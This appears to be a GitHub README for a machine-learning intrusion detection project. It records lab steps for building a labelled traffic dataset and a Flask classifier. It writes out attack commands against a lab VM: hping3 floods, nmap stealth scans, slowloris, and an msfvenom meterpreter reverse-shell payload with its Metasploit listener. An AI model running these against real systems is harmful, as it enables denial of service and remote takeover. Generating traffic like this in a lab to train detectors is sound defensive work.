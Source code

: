 # ML-IDS


Steps :- 
1. Project Planning & Objective Definition

-> Identified the need for a smarter, ML-based IDS.

-> Defined project aim: Detect various attacks in real time using machine learning.

2. Environment Setup

-> Set up host machine and two virtual machines (Attacker: Kali, Victim: Ubuntu).

-> Installed tools: Wireshark, Metasploit, Nmap, Scapy, CICFlowMeter, Flask, Python, joblib.

3. Attack Type Selection

-> We have chossen multiple attacks for the dataset | we have chosen these attacks on the basic of what type of protocols it uses also which port it targets
-> run these all these commands on attack machine and used the command provided at last to capture the attack traffic after performing the attack




-> SYN Flood
   sudo hping3 -S -p 80 --flood 192.168.100.4



   

-> UDP Flood
  sudo hping3 --udp -p 53 --flood 192.168.100.4



  

-> ICMP Flood
  sudo hping3 -1 --flood 192.168.100.4



  

->  Nmap Scans
🔸 Normal TCP Connect Scan -> nmap -sT 192.168.100.4
🔸 Aggressive Scan with OS and Version Detection -> nmap -A -T4 192.168.100.4




-> FIN Scan
  sudo nmap -sF 192.168.100.4


  

-> NULL Scan
  sudo nmap -sN 192.168.100.4




  

-> Xmas Scan
  sudo nmap -sX 192.168.100.4




  

-> Protocol Obfuscation Attack (Slowloris attack performed using Python)

  intallation of slowloris
    -> git clone https://github.com/gkbrk/slowloris
        cd slowloris

  run the attack: 
  python3 slowloris.py 192.168.100.4






-> Reverse Shell (It is a Metasploit Payload)
   
payload creation: 

- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.100.5 LPORT=4444 -f elf >         shell.elf
- chmod +x shell.elf

Starting Metasploit Listener: 

- msfconsole

{run this whole in one time}
- use exploit/multi/handler
  set PAYLOAD linux/x86/meterpreter/reverse_tcp
  set LHOST 192.168.100.5
  set LPORT 4444
  exploit

- Now Execute payload on victim

  ./shell.elf








-> Normal Traffic Generation

  - Basic Web Browsing
  -  File Transfer with Netcat :
        1. on victim : nc -l -p 1234 > received_file.txt
        2. on attacker : nc 192.168.100.4 1234 < sample_file.txt






-> HTTP Requests (run Together)
   - curl -X GET http://192.168.100.4/api/test
     curl -X POST -d "data=test" http://192.168.100.4/api/post






  
this command i have used in victim machine every attack time this helps me capturuing each and every network traffic capture and saves it with .pcap file

- sudo tcpdump -i eth0 -w attack_name_capture.pcap




4. Packet Capture

-> Generated traffic using tools like Metasploit, Nmap, Scapy.

-> Captured packets using Wireshark and tcpdump into .pcap files.

5. Flow Conversion

-> Converted .pcap files to flow-based .csv using CICFlowMeter.

6. Labeling and Combining Dataset

-> Labeled each flow file with its corresponding attack or "normal".

-> Combined all labeled .csv files into a single dataset (~900,000+ rows).

7. Data Preprocessing

-> Dropped irrelevant columns (e.g., IPs, timestamps).

-> Normalized features.

-> Encoded categorical features if needed.

8. Model Selection and Training

-> Tried multiple models: Random Forest, SVM, Logistic Regression.

-> Finalized Random Forest Classifier based on best accuracy.

9. Model Evaluation

-> Split data into training and test sets.

-> Evaluated using accuracy, precision, recall, F1-score.

-> Achieved ~98% accuracy.

10. Model Saving

-> Exported the trained model as best_ids_model.pkl using joblib.

11. Flask Web Application Development

-> Built a simple web interface using Flask and Bootstrap.

-> Created input form to enter flow features manually.

12. Model Integration with Flask

-> Loaded the trained model in Flask backend.

-> Created /predict route to classify input and return prediction.

13. Testing the Web App

-> Ran the Flask server.

-> Entered sample flow inputs into the web form.

-> Validated predictions (Normal/Attack Type).

14. Real-Time Simulation

-> Simulated new attacks live.

-> Captured and converted flows.

-> Tested prediction by entering new flows in the web app.

